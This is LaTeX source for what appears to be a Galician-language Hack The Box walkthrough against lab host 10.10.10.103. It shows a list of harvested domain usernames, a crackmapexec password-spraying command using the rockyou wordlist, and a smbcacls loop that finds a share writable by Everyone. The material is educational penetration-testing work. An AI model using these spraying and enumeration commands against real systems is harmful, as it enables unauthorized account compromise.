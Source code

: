 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.103}
\begin{document}
Revisando o contido deses cartafoles de usuario non existe nada, pero, poden ser usuarios do dominio e cartafoles de perfiles? Entón, imos tratar esa saída para crear un ficheiro de usuarios e pasalos por crackmapexec:
        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=yellow,colframe=yellow!75!black,colbacktitle=yellow!40!black,
  title=Sen kerberos,fonttitle=\bfseries,
  boxed title style={size=small,colframe=yellow!50!black} ]
        \centering
Non podemos empregar \textbf{kerbrute} posto que o porto TCP 88 non está aberto.
\end{tcolorbox}

        \clearpage
        \begin{lstlisting}[language=Bash, caption=Ficheiro posibles usuarios do dominio]
$ cat users.txt
amanda
amanda_adm
bill
bob
chris
henry
joe
jose
lkys37en
morgan
mrb3n
Public\end{lstlisting}


        \begin{lstlisting}[language=Bash, caption=Password Spraying]
$ crackmapexec smb ¬\ipTarget¬ -u users.txt -p /usr/share/wordlists/rockyou.txt --continue-on-success\end{lstlisting}
        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=green!80!black,
  title=De Interese,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
        \centering
Coa opción \textbf{--continue-on-success} aínda que atope coincidencias segue probando co resto de usuarios.
\end{tcolorbox}

Non conseguimos ningunhas credenciais co cal imos revisar coa ferramenta \textbf{smbcacls} se temos permiso de escritura nalgún cartafol do recurso compartido:
        \begin{lstlisting}[language=Bash, caption=smbcacls]
$ rm revision.txt; while read line
do     
  echo $line | tee -a revision.txt
  smbcacls "//10.10.10.103/Department Shares" Users/$line -N | tee -a revision.txt
  echo | tee -a revision.txt
done <users.txt\end{lstlisting}

Entón vemos que no recurso compartido \textbf{Public} calquera \emph{(Everyone)} ten permiso \textbf{FULL}:                                    
        \begin{lstlisting}[language=Bash, caption=Everyone permisos FULL sobre Public]
Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL\end{lstlisting}
\end{document}
